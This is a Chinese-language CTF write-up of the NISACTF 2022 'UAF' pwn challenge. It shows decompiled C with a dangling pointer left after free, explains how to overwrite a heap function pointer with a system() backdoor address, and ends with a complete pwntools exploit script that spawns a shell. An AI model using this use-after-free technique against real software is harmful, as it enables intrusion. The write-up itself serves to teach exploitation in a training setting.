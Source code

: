 ```yaml
---
title: '{文件名}'
date: 2024-11-11 13:00:00 +0800
categories: [uaf,malloc_hook,unsortbin_leaklibc]
tags: [ctf,pwn]
---
```

# [[NISACTF 2022]](https://www.nssctf.cn/problem/2161)UAF

`UAF`

```shell
pwn: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=85bd87e16a35c0c05064a1a0938f6115b8b3b2be, not stripped
```

> $ file pwn

```shell
[*] '/home/bamuwe/NISACTF_2022_UAF/pwn'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

> $ checksec pwn

```c
int create()
{
  int result; // eax
  int v1; // ebx
  char *v2; // eax

  printf("you are creating the %d page\n", i);
  result = i;
  if ( i >= 0 )
  {
    result = i;
    if ( i <= 9 )
    {
      v1 = i;
      (&page)[v1] = malloc(8u);
      if ( i )									// 判断点
      {
        if ( i <= 0 || i > 9 )
        {
          return puts("NO PAGE");
        }
        else
        {
          puts("Good cretation!");
          return ++i;
        }
      }
      else
      {
        v2 = page;
        *page = 'oaig';                         // giao
        v2[4] = 0;
        *(page + 1) = echo;						// 在堆中存贮了echo()的地址
        puts("The init page");
        return ++i;
      }
    }
  }
  return result;
}
```

> create()函数

```c
int __cdecl NICO(char *command)
{
  return system(command);
}
```

> 后门函数NICO()

```c
unsigned int del()
{
  int v1; // [esp+8h] [ebp-10h] BYREF
  unsigned int v2; // [esp+Ch] [ebp-Ch]

  v2 = __readgsdword(0x14u);
  puts("Input page");
  __isoc99_scanf("%d", &v1);
  if ( v1 < 0 || v1 > i )
    puts("NO PAGE");
  else
    free((&page)[v1]);
  return __readgsdword(0x14u) ^ v2;
}											// 没有清空指针
```

> del()函数

```c
unsigned int show()
{
  int v1; // [esp+8h] [ebp-10h] BYREF
  unsigned int v2; // [esp+Ch] [ebp-Ch]

  v2 = __readgsdword(0x14u);
  puts("Input page");
  __isoc99_scanf("%d", &v1);
  if ( v1 )                                     // v1=0
  {
    if ( v1 <= 0 || v1 > i )
      puts("NO PAGE");
    else
      echo((&page)[v1]);
  }
  else
  {
    (*(page + 1))(page);                        // 利用点
  }
  return __readgsdword(0x14u) ^ v2;
}
```

> show()函数

交互函数：

```python
def add():
    io.sendlineafter(b':',b'1')
    
def edit(idx,text):
    io.sendlineafter(b':',b'2')
    io.sendlineafter(b'page\n',str(idx))
    io.sendlineafter(b'strings\n',text)

def free(idx):
    io.sendlineafter(b':',b'3')
    io.sendlineafter(b'page\n',str(idx))

def show(idx):
    io.sendlineafter(b':',b'4')
    io.sendlineafter(b'page\n',str(idx))
```

程序逻辑：

1. `add()`堆块的时候，如果创建的是第一块`chunk0`则往`chunk0+1`的位置写入`echo()`的地址
2. del()并没有删除指针
3. `show()`执行时，如果是`chunk1-9`非零`chunk`，则`echo((&page)[v1]);`，如果是`chunk0`，则`(*(page + 1))(page); `，正常情况下是执行`echo(page)`

利用思路：

1. 程序存在`UAF`，所以可以先申请`chunk0`然后释放再申请，就可以获得两个指针`*chunk0,*chun1`都指向同一块内存区域

   ```python
   add()   #0
   free(0)
   add()   #1
   ```

   ![image-20240428204547865](./../../AppData/Roaming/Typora/typora-user-images/image-20240428204547865.png)

   重新申请的时候由于`i`的值没有重置`（i=1）`，所以不会重新向`chunk`中写入`echo`的地址，我们也可以发现，此时`show(0)`是失效的

   ![image-20240428204716350](./../../AppData/Roaming/Typora/typora-user-images/image-20240428204716350.png)

2. 只有在`chunk0`上才能执行我们的利用点

![image-20240428203145487](./../../AppData/Roaming/Typora/typora-user-images/image-20240428203145487.png)

3. 我们通过`*chunk1`修改`chunk0/1`上的内容为`sh\x00\x00`,我们要考虑栈平衡填充，同时修改`page+1`为后门函数地址，构造`NICO(sh)`

   ```python
   edit(1,b'/sh\x00'+p32(0x8048642))
   show(0)
   ```

___

exp:

```python
from pwn import *
io = gdb.debug('./pwn')

def add():
    io.sendlineafter(b':',b'1')
    
def edit(idx,text):
    io.sendlineafter(b':',b'2')
    io.sendlineafter(b'page\n',str(idx))
    io.sendlineafter(b'strings\n',text)

def free(idx):
    io.sendlineafter(b':',b'3')
    io.sendlineafter(b'page\n',str(idx))

def show(idx):
    io.sendlineafter(b':',b'4')
    io.sendlineafter(b'page\n',str(idx))
    
add()   #chunk0
free(0)
add()   #chunk1
edit(1,b'sh\x00\x00'+p32(0x8048642))
show(0)

io.interactive()
```

